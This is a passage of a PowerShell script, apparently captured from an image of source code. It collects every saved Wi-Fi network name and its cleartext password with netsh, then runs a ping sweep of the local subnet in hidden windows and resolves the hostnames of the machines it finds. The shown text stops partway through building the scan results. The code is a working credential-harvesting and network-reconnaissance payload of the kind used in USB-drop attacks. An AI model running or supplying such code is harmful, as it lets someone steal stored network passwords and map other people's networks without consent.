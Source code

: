 # Saved WiFi Network Info
$outssid = $null
$a=0
$ws=(netsh wlan show profiles) -replace ".*:\s+"
foreach($s in $ws){
    if($a -gt 1 -And $s -NotMatch " policy " -And $s -ne "User profiles" -And $s -NotMatch "-----" -And $s -NotMatch "<None>" -And $s.length -gt 5){
        $ssid=$s.Trim()
        if($s -Match ":"){
            $ssid=$s.Split(":")[1].Trim()
            }
        $pw=(netsh wlan show profiles name=$ssid key=clear)
        $pass="None"
        foreach($p in $pw){
            if($p -Match "Key Content"){
            $pass=$p.Split(":")[1].Trim()
            $outssid+="SSID: $ssid | Password: $pass`n"
            }
        }
    }
    $a++
}

# Get the local IPv4 address
$localIP = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object SuffixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress)

if ($localIP -match '^(\d{1,3}\.\d{1,3}\.\d{1,3})\.\d{1,3}$') {
    $subnet = $matches[1]

    1..254 | ForEach-Object {
        Start-Process -WindowStyle Hidden ping.exe -ArgumentList "-n 1 -l 0 -f -i 2 -w 100 -4 $subnet.$_"
    }

    # Retrieve the list of computers in the subnet
    $Computers = (arp.exe -a | Select-String "$subnet.*dynam") -replace ' +',',' | ConvertFrom-Csv -Header Computername,IPv4,MAC | Where-Object { $_.MAC -ne 'dynamic' } | Select-Object IPv4, MAC, Computername

    # Add Hostname property and build scan result
    $scanresult = ""
    $Computers | ForEach-Object {
        try {
            $ip = $_.IPv4
            $hostname = ([System.Net.Dns]::GetHostEntry($ip)).HostName
            $_ | Add-Member -MemberType NoteProperty -Name "Hostname" -Value $hostname -Force
        } catch {
            $_ | Add-Member -MemberType NoteProperty -Name "Hostname" -Value "Error: $($_.Exception.Message)" -Force
        }
